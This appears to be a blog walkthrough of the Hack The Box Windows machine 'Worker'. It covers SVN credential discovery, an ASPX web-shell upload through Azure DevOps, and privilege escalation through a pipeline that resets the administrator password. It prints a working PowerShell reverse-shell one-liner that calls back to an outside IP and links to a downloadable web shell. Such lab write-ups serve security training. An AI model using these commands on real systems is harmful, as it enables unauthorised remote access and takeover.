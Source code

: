```yaml
---
layout: post
title: Worker HTB Walkthrough
---
```

![](/images/2021-2-12-Worker/0.png)

Hello guys and girls, lets hacks!!

Today we are going to be hacking a windows machine from hack the box called worker.

Let’s kick it off with nmap:

```
Nmap scan report for worker.htb (10.10.10.203)                                                        
Host is up (0.039s latency).                                                                          
Not shown: 998 filtered ports                                                                         
PORT     STATE SERVICE  VERSION                                                                       
80/tcp   open  http     Microsoft IIS httpd 10.0                                                      
| http-methods:                                                                                       
|_  Potentially risky methods: TRACE                                                                  
|_http-server-header: Microsoft-IIS/10.0                                                             
|_http-title: IIS Windows Server                                                                      
3690/tcp open  svnserve Subversion                                                                    
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows                                             
                                                                                                     
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .        │
# Nmap done at Sat Oct 10 13:15:06 2020 -- 1 IP address (1 host up) scanned in 13.62 seconds

```

As you can see, port 80 and 3690 are open. 

Port 80 had nothing interesting, so I started looking at 3690 which runs SVN, SVN is like Githib, SVN is used to manage and track changes to code and assets across projects.

So, let’s see what is in there: 

![](/images/2021-2-12-Worker/1.png)

Okay we found a bunch of stuff, so I just exported all the directory on to my local machine and spend some time going through it to find something interesting!!

![](/images/2021-2-12-Worker/2.png)

Hm!! Looks like something interesting.

![](/images/2021-2-12-Worker/3.png)

Okay, so we need some credentials. Usually I will think of brute force but its NTLM auth so it won’t be easy, so let’s look for creds.


Finally found something interesting!! A username and password.

![](/images/2021-2-12-Worker/4.png)


Now we will try to authenticate with it

Wallah!!, we got in


![](/images/2021-2-12-Worker/5.png)

Initially I found an upload button, so I tried uploading a shell, but it didn’t work so I looked around and decided to create a branch and upload my shell

![](/images/2021-2-12-Worker/6.png)
Now I created a branch called workerhtb under spectral, and uploaded my aspx shell.

You can download the shell from here: [shell]( https://dl.packetstormsecurity.net/UNIX/penetration/aspxshell.aspx.txt)

![](/images/2021-2-12-Worker/7.png)
Now create a pull request to deploy the aspx shell and approve the pull to get the file added to the master branch

![](/images/2021-2-12-Worker/8.png)

![](/images/2021-2-12-Worker/9.png)

```
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.15.249',4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```
![](/images/2021-2-12-Worker/10.png)


![](/images/2021-2-12-Worker/11.png)
![](/images/2021-2-12-Worker/12.png)
So, now that we have so many different users, I tried using one to log into the devops site.

![](/images/2021-2-12-Worker/13.png)


Oh, wait a minute. I can use evil-winrm to read the user.txt file.

Install evil-winrm :

gem install evil-winrm

then 

![](/images/2021-2-12-Worker/14.png)

Awesome !!


Now to privilege escalation…

As expected, “access denied”


![](/images/2021-2-12-Worker/15.png)

After spending some time in the box enumerating, I got nothing so, I decided to look at the devops site..


After spending a lot of time, I stumbled upon pipelines.

![](/images/2021-2-12-Worker/16.png)

So, I decided to create pipeline using azure..

I saw a field called “script” in the YAML deployment file , so immediately change the value into reading the root.txt. Technically, this should work !!


![](/images/2021-2-12-Worker/17.png)

However, for some reason it didn’t, so I tried to change the admin password  

![](/images/2021-2-12-Worker/18.png)

Yikess :/  I should start using strong passwords **silly me**

![](/images/2021-2-12-Worker/19.png)

I re-did the same thing, now with a stronger password:

![](/images/2021-2-12-Worker/20.png)


W00t Wo0T




